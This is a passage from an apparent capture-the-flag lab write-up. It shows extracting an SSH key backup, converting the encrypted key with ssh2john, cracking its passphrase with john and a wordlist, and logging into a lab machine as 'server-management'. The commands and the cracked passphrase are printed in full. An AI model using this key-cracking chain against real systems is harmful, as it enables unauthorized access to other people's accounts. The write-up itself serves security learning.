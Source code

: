 `tar -xf ssh-backup.tar.gz`
So if you don't know we can use tar or gunzip to extract thing from zip file.

Lets login as user `server-management`.
But first we have to crack the passphrase.
So we are gonna use ssh2john here.
`ssh2john id_rsa > id_hash.txt`

![](Pasted%20image%2020250306143201.png)

And john to crack the hash.
`john --wordlist=/usr/share/wordlists/rockyou.txt id_hash.txt`

And it is crackable.
![](Pasted%20image%2020250306143312.png)
`oneTWO3gOyac`

Lets now login.
`ssh -i id_rsa server-management@10.10.2.38`

And we are in as user `server-management`.